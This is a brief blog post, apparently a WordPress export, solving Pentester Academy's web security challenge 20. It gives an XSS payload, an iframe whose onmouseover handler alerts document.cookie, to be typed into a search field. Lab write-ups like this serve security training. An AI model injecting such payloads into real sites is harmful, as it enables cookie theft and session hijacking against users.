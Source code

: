 title: [Pentester Academy] Web Application Security Challenge 20
link: http://localhost/pentester-academy-web-application-security-challenge-20/
author: exploitprotocol
description: 
post_id: 1759
created: 2015/01/08 09:03:42
created_gmt: 2015/01/08 09:03:42
comment_status: open
post_name: pentester-academy-web-application-security-challenge-20
status: publish
post_type: post

# [Pentester Academy] Web Application Security Challenge 20

This is one of the simplest XSS challenge. Insert <iframe src="" onmouseover="alert(document.cookie)"> in the search field. ![](https://i.imgur.com/Rq6KzpL.png)